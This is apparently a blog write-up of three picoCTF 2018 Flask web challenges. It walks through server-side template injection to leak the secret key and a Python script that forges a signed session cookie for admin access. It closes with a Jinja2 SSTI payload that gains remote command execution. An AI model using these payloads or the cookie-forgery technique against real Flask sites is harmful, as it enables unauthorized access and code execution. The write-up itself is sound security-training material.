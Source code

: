 ```yaml
---
layout: post
title: picoCTF'18 - Flaskcards writeup
date: 2018-10-12
tags: ['tech']
---
```


___
## Summary / TL;DR

I played in picoCTF again this year, and I think I performed a lot better than I did last year, especially in web, I wanted to share this writeup because I think I did a good job being the **<u>75th</u>** person (out of like 5000 other players) to solve the final part of this series of web challenges.

1. **Flaskcards** (350 pts)
2. **Flaskcards Skeleton Key** (600 pts)
3. **Flaskcards and Freedom** \[Highest point web challenge] (900 points)  

___
  

# Flaskcards

## Description / Hints / URL

We found [this](http://2018shell1.picoctf.com:51878/){:target="_blank"} fishy website for flashcards that we think may be sending secrets. Could you take a look? 

```
- Are there any common vulnerabilities with the backend of the website?
- Is there anywhere that filtering doesn't get applied?
- The database gets reverted every 2 hours so your session might end unexpectedly. Just make another user
```

## Thought Process

Based on CTF playing experience, the challenge and flavourtext always gives hints about the vulnerability or at least a starting point. In this case `Flask` is a dead giveaway that it has something to do with the Flask webserver.

After registering and logging in, we are shown a navbar that gives us a bit more hinting. 
![navbar](https://vgy.me/YUkEMJ.png)

**Ccreate Cards** -- Allows users to enter input and save it  
**List Cards** -- Shows the saved input that was entered beforehand  
**Admin** -- Not important for this challenge, used in further challenge 

As an example:  
![list-create](https://vgy.me/HlN6i5.png)

Some experienced CTF players may know straight away what to do at this point, if not then well this is a sign of user input being reflected, which could be a few things, notably _Cross Site Scripting_ (XSS) or _Server-Side Template Injection_ (SSTI)

## Exploitation

First thing I tried was XSS because why not ?  
![xss-attempt](https://vgy.me/85lTVv.png)
Unfortunately the payloads were being escaped so by rule of elimination the other thing left to try was **SSTI** ! 

Not going to go into how **SSTI** works but essentially your input gets evaluated and the result is returned, not good for keeping secrets ... 

Here is an example probing payload:  
![4times4](https://vgy.me/2lWc1L.png)
 
## Flag 
{% raw %}
The flag is most likely stored in the `SECRET_KEY` variable maintained internally by Flask, so we can use `{{ config }}` to dump out all the variables:  
![configz](https://vgy.me/bLucDr.png)
{% endraw %}

<div class="divider"></div>
# Flaskcards Skeleton Keys

## Description / Hints / URL
Nice! You found out they were sending the Secret_key: a155eb4e1743baef085ff6ecfed943f2. Now, can you find a way to log in as admin? http://2018shell1.picoctf.com:53588 .

```
- What can you do with a flask Secret_Key?
- The database still reverts every 2 hours
```
## Thought Process
This one took me awhile because I wasn't sure what I was doing wrong, but actually the answer is very staright forward ! The key is given to us: `a155eb4e1743baef085ff6ecfed943f2`.

We first grab the existing _non-admin_ session cookie off the site which is something like this:
```
.eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw
```
It goes without saying that when we visit the `/admin` page we don't get the flag, at least not yet ... 

 We know that secrets are usually used to sign cookies and a quick search on the interwebz gives us a nice and easy [program](https://gist.github.com/babldev/502364a3f7c9bafaa6db) to decrypt and encrypt our own cookies using the key :)

## Exploitation 
After some slight modification and experimenting the (cleaned-up) version of the script I used was:
```python 
#!/usr/bin/python

import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer
salt = 'cookie-session'
serializer = TaggedJSONSerializer()

secret_key = "a155eb4e1743baef085ff6ecfed943f2"
cookie_str = ".eJwlj0FqBDEMBP_i8x5kWZKl_cxiWRIJgQRmdk8hf8-EXPpQUFD93R515PnW7s_jlbf2eI92b7lpOq4eXfRvd-7IBCumiY7AfZqEuoGn8dC9zcVrsefM6nP0cCcX6oUhwaZwsQEohmYlqbvzSMWpnQxh0NDFQLpIAGy1W9vnUY_n10d-Xj2Kw124XC1SKbUWGImHYueShUzqscblvc48_k90aD-_1SE-cQ.DqESzA.6Di3_tN-krfQX-10KZLnH9ncisw"

signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}

s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

print "=== User u ==="
print s.loads(cookie_str)
print ''

manipulate = s.loads(cookie_str)
manipulate['user_id'] = '1'.decode('utf-8')

print "=== MANIPULATED ==="
print manipulate
print ''
print s.dumps(manipulate)
print "======================="
```

The decrypted cookie had a user_id value which would determine whose session you logged in as, I kept failing because I was going after user_id **0** which is usually the admin, but I guess sometimes 1 is worth a try as well  

The manipulated cookie was:
```
.eJwlj0FqBDEMBP_i8x4kWZKl_cxiWTIJgQRmdk8hf8-EXPpQUFD93R77qPOt3Z_Hq27t8Z7t3mrxCJqYqPa3q1ZWgW_hQUEgOFzTwiHKpdtaHhp7StSojaNjRnAo46bUFDe4WAdSJ_etZQull9EwZCfo3G0KsE1WAJ_t1tZ57Mfz66M-rx6jHqGywzzLuGxPcNZII5Stk4QtcvbLe511_J_A9vMLlu8-QQ.DqETSg.MoGOf2Esi4EScYNpa8Y_hOikdbQ
```

By copying this value into the clipboard and repasting into a cookie editor, we can now visit the `/admin` page to get the flag ~ 

Note:  The cookie should **NOT** have a trailing newline, as this causes the cookie to not be parsed properly !     

## Flag 
![flag2](https://vgy.me/hX4nrZ.png)

<div class="divider"></div>
# Flaskcards and Freedom

## Description / Hints / URL
There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:52168

```
- There's more to the original vulnerability than meets the eye.
- Can you leverage the injection technique to get remote code execution?
- Sorry, but the database still reverts every 2 hours.
```

## Thought Process
Again, the title gives us a hint of what to do ... __Freedom__ relates to sandbox escaping, or in this case we just need to get _Remote Code Execution_ (RCE) somehow, in the 2nd challenge the templating bug was patched but is reintroduced again in this challenge. Therefore we know that this is a chance to do more **SSTI** stuff ! 


I'm really glad I took extended WebApps because I learnt how to do exactly this type of challenge, to learn how I constructed the payload, these two pages [(1)](https://0day.work/bsidessf-ctf-2017-web-writeups/#zumbo3){:target="_blank"} [(2)](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html){:target="_blank"} may help out ...

## Exploitation

After much experimentation and failure, the final crafted payload I managed to get working was this:
{% raw %}
```python
{{[].__class__.__base__.__subclasses__()[111].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat flag").read()') }}
```
{% endraw %}

## Flag 
After submitting this to **Create Card** our commands would be reflected back to us, it was as simple as doing `ls` followed by `cat flag` to obtain the flag !   
![image](https://vgy.me/LLFMGS.png)

